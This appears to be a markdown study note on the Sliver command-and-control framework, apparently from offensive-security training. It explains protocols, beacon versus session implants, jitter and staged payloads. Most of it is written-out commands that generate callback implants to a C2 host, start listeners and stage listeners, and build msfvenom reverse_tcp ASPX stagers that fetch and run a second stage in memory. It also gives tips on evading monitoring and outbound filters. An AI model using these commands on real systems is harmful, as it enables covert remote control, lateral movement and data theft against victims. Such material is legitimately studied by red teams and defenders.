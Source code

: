 # Content
- []()
- []()
# Sliver Communication Protocols
![Architecture](https://github.com/user-attachments/assets/5d6aa18d-6484-42a1-b833-96e29ab9ca9b)
## Choosing the Right Protocol

The selection of a protocol depends on the specific network environment and the attacker’s objectives:

- **Stealth**: DNS and HTTPS are preferred in highly monitored networks.
- **High Bandwidth**: mTLS and HTTPS are better for large data transfers.
- **Internal Pivoting**: Named pipes and TCP pivots are essential for moving laterally within an environment.
- **Bypassing Restrictions**: DNS can bypass most outbound traffic filters.


# Implants 
- Implants are the software (binaries/executables), They offer network connections on different sets of protocols and a means of communication between a C2 server and the target workstation/server.
- Implants can operate in beacon and session modes.
  - **Sessions:** use long-polling connections, which means they use a single TCP connection which is constantly open.
  - **Beacons:** on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.
```bash
sliver > generate beacon --http <C2 IP>:8088 -N http_beacon --os linux --skip-symbols
sliver > generate --http <C2 IP>:8088 -N http_session --os linux --skip-symbols
sliver > http --lport 8088
```
## Jitter
- Jitter is a randomization mechanism that alters the interval at which beacon signals are sent to the C2 server.
- Example: If a beacon is set to signal every 60 seconds with a 20% jitter, the actual interval will vary randomly between 48 and 72 seconds.
## Stagers
- **Stegeless:**  one single binary that connects back to u
- **Staged:** Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

```bash
# create profile and set a beacon
sliver > profiles new beacon --http <C2 IP>:8088 --format shellcode profile_name # creare beacon
sliver > profiles new --http 10.10.17.67:8088 --format shellcode academy # create session 
sliver > http -L <C2 IP> -l 8088
# just another example:  sliver > profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name 


# use sliver shellcode in msvnom stagger
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name
sliver > generate stager --lhost <C2 IP> --lport 4443 --format csharp --save staged.txt
# change the shellcode in sliver.aspx with the one generated above
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx

# use msvenom stagger directly 
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name --prepend-size
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx
```
